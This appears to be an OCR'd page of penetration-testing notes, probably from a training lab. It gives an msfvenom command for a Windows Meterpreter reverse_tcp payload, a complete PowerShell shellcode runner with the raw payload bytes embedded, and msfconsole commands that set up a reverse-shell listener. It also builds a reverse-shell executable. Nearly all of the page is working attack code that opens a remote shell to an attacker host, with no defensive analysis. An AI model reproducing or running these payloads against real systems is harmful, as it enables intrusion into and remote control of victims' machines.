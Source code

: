 #### Generating the Payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f powershell
```

#### Full powershell script
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0x98,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

#### Setting up Meterpreter
One command at a time:
```
service postgresql start
sudo msfdb init
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
exploit
```
##### Windows reverse tcp exe 40000
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.152 LPORT=40000 -f exe > tpc_rev_40000.exe

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.21; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 40000; set AutoRunScript post/windows/manage/migrate; exploit"
```
